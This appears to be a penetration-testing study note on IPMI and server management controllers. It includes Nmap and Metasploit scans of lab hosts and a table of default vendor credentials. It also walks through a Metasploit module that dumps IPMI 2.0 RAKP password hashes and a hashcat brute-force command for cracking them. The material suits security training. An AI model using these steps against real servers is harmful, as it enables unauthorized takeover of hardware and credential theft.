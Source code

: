 ```yaml
---
title: IPMI
description: ipmi
---
```


What is purpose of IPMI?

when would you use IPMI?

- IPMI (Intelligent Platform Management Interface) is a set of standardized specifications for remote management and monitoring of server hardware.
- It operates independently of the server's operating system.
- IPMI provides low-level access to the system hardware.
- It allows administrators to monitor the health of the system hardware (e.g., temperature, voltage, fan speeds, system logs).
- IPMI operates even when the server is powered off or the OS is unresponsive.
- It allows administrators to control server power remotely (on, off, or reset).
- IPMI captures hardware-related events in the System Event Log (SEL).
- It provides remote console access to interact with the BIOS or OS boot process.
- IPMI allows remote firmware updates for servers.

- does not require access to the operating system via a login shell

IPMI is typically used in three ways:

- *Before the OS has booted to modify BIOS settings*
- *When the host is fully powered down*
- *Access to a host after a system failure*

To function, IPMI requires the following components:

- Baseboard Management Controller (BMC) - A micro-controller and essential component of an IPMI
- Intelligent Chassis Management Bus (ICMB) - An interface that permits communication from one chassis to another
- Intelligent Platform Management Bus (IPMB) - extends the BMC
- IPMI Memory - stores things such as the system event log, repository store data, and more
- Communications Interfaces - local system interfaces, serial and LAN interfaces, ICMB and PCI Management Bus

# **Foot printing the Service**

1. **IPMI Protocol Basics:**
    - communicates over port 623 UDP
    - It is used by Baseboard Management Controllers (BMCs) to manage and monitor server hardware
2. **Baseboard Management Controllers (BMCs):**
    - Typically embedded ARM systems running Linux, connected directly to the motherboard
    - can be build into many motherboards or added via a PCI card
    - Common BMCs found in servers include HP iLO, Dell DRAC, and Supermicro IPMI
3. **BMC Access and Capabilities:**
    - Access to a BMC allows full control over the server hardware, similar to physical access
    - BMCs can be used to monitor, reboot, power off, or even reinstall the OS on the host
4. **BMC Interfaces:**
    - BMCs often provide a web-based management console and command-line access via Telnet or SSH
5. **Security Implications in Penetration Testing:**
    - During assessments, access to a BMC means gaining full control of the host system
    - Common BMCs in internal tests are HP iLO, Dell DRAC, and Supermicro IPMI

### **Nmap**

```python
[!bash!]$ sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
Host is up (0.00064s latency).

PORT    STATE SERVICE
623/udp open  asf-rmcp
| ipmi-version:
|   Version:
|     IPMI-2.0
|   UserAuth:
|   PassAuth: auth_user, non_null_user
|_  Level: 2.0
MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
```

- we can use alternative to nmap, that is metasploit

[IPMI Information Discovery (auxiliary/scanner/ipmi/ipmi_version)](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/).

### **Metasploit Version Scan**

```python
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BATCHSIZE  256              yes       The number of hosts to probe in each set
   RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      623              yes       The target port (UDP)
   THREADS    10               yes       The number of concurrent threads

msf6 auxiliary(scanner/ipmi/ipmi_version) > run

[*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
[+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

| **Product** | **Username** | **Password** |
| --- | --- | --- |
| Dell iDRAC | root | calvin |
| HP iLO | Administrator | Randomized 8-character string (numbers & uppercase) |
| Supermicro IPMI | ADMIN | ADMIN |
- while dealing with BMCs these default password might give access
- it is important to know the default password for different services

# **Dangerous Settings**

- if default credentials fail, an alternative approach targets the RAKP (Remote Access Key Protocol) flaw in IPMI 2.0
- During IPMI authentication, the server sends a **salted SHA1 or MD5 hash** of the password **before** full authentication
- this flaw allows retrieval of password for ANY valid user account on the BMC
- hash can be cracked offline
- Use **Hashcat mode 7300** to crack IPMI password hashes
- Command to run the dictionary attack: hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u
- it cannot be directly patched or fixed
- Apply network segmentation rules to restrict access to BMCs, limiting exposure to these vulnerabilities
- BMC web console access is a high-risk vulnerability, as it provides significant control over the host system

### **Metasploit Dumping Hashes**

```python
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 

Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

   Name                 Current Setting                                                    Required  Description
   ----                 ---------------                                                    --------  -----------
   CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
   OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
   OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
   PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
   RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                623                                                                yes       The target port
   THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
   USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
[+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- we found out the password hash and the password is ADMIN
- now we can attempt to login to BMC
- IPMI is widely used in the network environments to allow remote access for server management
- System administrators rely on IPMI for tasks that would typically require physical access to the server, especially during outages or for maintenance
- the convenience of IPMI comes with security risks, as password hash is exposed to anyone on the network
- while pen-testing checking on the IPMI should be the standard part as it is common in many environment
